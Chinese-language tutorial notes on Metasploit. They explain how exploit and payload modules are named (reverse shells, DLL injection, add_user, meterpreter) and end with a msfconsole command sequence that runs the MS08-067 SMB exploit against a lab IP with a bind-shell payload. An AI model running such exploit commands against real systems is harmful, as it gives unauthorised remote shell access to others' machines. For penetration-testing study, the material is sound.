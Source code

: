 ### Exploits模块

```
命名规则：系统/服务/名称
例如：windows/smb/ms08_067_netapi
RHOST：目标主机IP地址
RPORT：目标主机连接端口
Payload：有效的载荷，成功后返回shell
LHOST：攻击者的IP地址
LPORT：攻击者的端口
```



### Payloads模块

```
是在使用一个模块之后再去使用的
命名规则：系统/类型/名称
例如：Windows/dllinject/reverse_tcp
类型命名规则
shell：上传一个shell
dllinject：注入一个dll到进程
patchup***：修补漏洞
upexec：上传并执行一个文件
meterpreter：高级的payload
vncinject：高级的payload
passive：高级的payload
名称的命名规则
shell_find_tag:在一个已建立的连接上创建一个shell
shell_reverse_tcp:反向连接到攻击者主机并创建一个shell
bind_tcp:监听一个tcp连接
reverse_tcp:反向建立tcp连接
reverse_http:通过HTTP隧道通信并创建一个新用户添加到管理组
add_user:创建一个新用户并添加到管理组
xxx_ipv6_tcp:基于IPV6
xxx_nonx_tcp:no execute或win7（NX是应用在CPU的一种可以防止缓冲区溢出的技术）。
xxx_ord_tcp:有序payload
xxx_tcp_allports:在所有可能的端口
```



## MSF漏洞实例测试

## 网络服务器攻击渗透（MS08-067）

```
search ms08_067
use exploit/windows/smb/ms08_067_netapi
set rhosts 10.4.7.50
set payload generic/shell_bind_tcp
exploit 
```
